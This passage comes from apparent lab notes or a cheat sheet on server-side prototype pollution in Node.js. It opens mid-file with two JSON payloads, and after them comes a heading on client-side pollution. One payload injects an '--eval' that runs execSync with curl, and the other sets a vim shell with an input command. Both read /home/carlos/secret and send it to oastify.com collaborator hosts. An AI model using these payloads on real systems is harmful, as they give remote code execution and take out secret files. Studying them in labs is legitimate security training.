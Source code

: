 ```json
			"--eval=require('child_process').execSync('curl --data-binary \"@/home/carlos/secret\" https://9oyvfbvkxivd5kgpav5krzvmfdl490xp.oastify.com')"
			]
	}
}
```

- NodeJS Remote Execution via shell+input (vim)

```json
{
	"__proto__":{
		"shell":"vim",
		"input":":! cat /home/carlos/secret | curl --data-binary @- https://fdw14hkqmokjuq5vz1uqg5ks4jaay8mx.oastify.com\n"
	}
}
```

## Client-side prototype pollution via browser APIs

- Manual

![](/img2/Pasted%20image%2020251005165617.png)
